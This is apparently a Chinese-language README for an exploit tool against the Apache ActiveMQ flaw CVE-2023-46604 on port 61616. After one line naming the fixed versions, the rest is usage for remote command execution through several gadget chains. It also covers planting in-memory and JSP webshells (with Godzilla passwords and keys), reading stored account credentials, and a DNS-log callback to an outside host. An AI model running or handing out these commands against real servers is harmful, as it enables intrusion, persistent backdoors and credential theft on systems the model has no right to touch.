 
ActiveMQ CVE-2023-46604 61616端口利用工具

安全版本>= 5.18.3/5.17.6/5.16.7

java -jar ActiveMQExp.jar rhost=rhost lhost=lhost gadget=gadget cmd=cmd

例如

java -jar ActiveMQExp.jar rhost=127.0.0.1 lhost=127.0.0.1 gadget=cb19 cmd=whoami

默认 rport=61616 ldapport=1389 httpport=9998

目前支持的gadget如下

gadget=wincmd cmd=whoami //无回显

gadget=linuxcmd cmd=whoami //无回显

gadget=spelcmd cmd=whoami //无回显

gadget=spelecho cmd=whoami //有回显 from Hutt0n0

gadget=spelclass cmd=memcmd //内存马 from Hutt0n0 http://rhost:8161/admin/memshell?cmd=whoami

gadget=spelclass cmd=memgodzilla //内存马 http://rhost:8161/admin/memgodzilla pass:Tas9er key:B7VO2sAamj

gadget=spelclass cmd=readfile //读8186账户密码并且请求一次8186/admin/

gadget=spelclass cmd=whoami //有回显

gadget=spelclass cmd=cmdjsp // http://rhost:8161/api/cmd.jsp

gadget=spelclass cmd=godzillajsp // http://rhost:8161/api/godzilla.jsp pass:Tas9er key:B7VO2sAamj

gadget=urldns cmd=xxx.dnslog.cn

gadget=cb18 cmd=whoami //有回显

gadget=cb18 cmd=cmdjsp

gadget=cb18 cmd=godzillajsp

gadget=cb18 cmd=readfile

gadget=cb18 cmd=memgodzilla

gadget=cb19 cmd=whoami //有回显

gadget=cb19 cmd=cmdjsp

gadget=cb19 cmd=godzillajsp

gadget=cb19 cmd=readfile

gadget=cb19 cmd=memgodzilla


